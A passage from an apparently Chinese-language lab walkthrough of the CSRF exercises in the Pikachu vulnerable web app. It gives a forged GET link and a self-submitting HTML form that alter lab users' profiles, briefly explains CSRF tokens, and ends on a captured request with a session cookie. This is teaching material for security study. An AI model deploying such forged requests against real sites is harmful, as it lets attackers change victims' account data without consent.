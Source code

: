 ```html
http://172.26.239.122/vul/csrf/csrfget/csrf_get_edit.php?sex=boy&phonenum=12580&add=usa&email=admin@admin.cn&submit=submit
```

模拟kobe访问该链接，可以看到通过csrf修改了kobe的信息

![pikachu33](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu33.png)

## CSRF(post)

还是老一套，这次登录lucy账号

![pikachu34](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu34.png)

随便修改点什么，抓包看到数据是post提交的，这也好办，伪造一个恶意提交表单页面(提交后修改账号内容为boy,12580,usa,admin@admin.cn)

```html
<!DOCTYPE html>
<html>
<head lang="cn">
        <title>csrf_post</title>
        <script>
    window.onload = function() {
    document.getElementById("postsubmit").click();
  }
 </script>
</head>
<body>
       <form action="http://172.26.239.122/vul/csrf/csrfpost/csrf_post_edit.php"  method="POST">
         <input type="text" name="sex" value="boy"><br>
         <input type="hidden" name="phonenum" value="12580"><br>
         <input type="hidden" name="add" value="usa"><br>
         <input type="hidden" name="email" value="admin@admin.cn"><br>
         <input id="postsubmit" type="submit" name="submit" value="submit" />
       </form>
</body>
</html>
```

模拟lucy访问我们伪造的恶意页面，可以看到通过csrf修改了lucy的信息

![pikachu35](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu35.png)

## CSRF Token

CSRF的主要问题是敏感操作的链接容易被伪造，那Token是如何防止CSRF的：

- 每次请求，都增加一个随机码（需要够随机，不容易伪造），后台每次对这个随机码进行验证
- 每次刷新页面，token值都会发生变化。这样就防止了CSRF

随意修改内容，第一次请求包数据如下

```http
GET /vul/csrf/csrftoken/token_get_edit.php?sex=10086&phonenum=10086&add=10086&email=10086&token=78116632ec0a6bbe12219421110&submit=submit HTTP/1.1
Host: 172.26.239.122
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.26.239.122/vul/csrf/csrftoken/token_get_edit.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=u19vivvv2j26lqb3622ebur90r
Connection: close
```